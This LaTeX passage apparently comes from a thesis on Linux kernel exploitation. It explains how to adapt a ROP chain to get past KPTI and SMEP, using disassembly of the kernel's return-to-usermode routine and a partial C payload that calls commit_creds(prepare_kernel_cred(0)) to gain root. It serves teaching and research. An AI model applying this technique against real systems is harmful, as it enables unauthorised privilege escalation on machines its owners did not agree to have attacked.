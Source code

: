 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\subsection{Tweaking the ROP chain}
The piece of code resides in a function called \lstinline{swapgs_restore_regs_and_return_to_usermode()} which we always find with \lstinline{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     rdi, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [rdi+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [rdi+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [rdi+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [rdi+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [rdi+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [rdi]
.text:FFFFFFFF81200F43                 push    rax
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address FFFFFFFF81200F26 the function makes a series of pop that free the stack, then you get to the part that swaps the tables of the page.
We will have two extra pop at the beginning, then we will add two dummy values, and we will modify the final part of our ROP chain from \lstinline{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \lstinline{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in \refToSubSection{second scenario}, it can be used to bypass the SMEP.
\end{document}
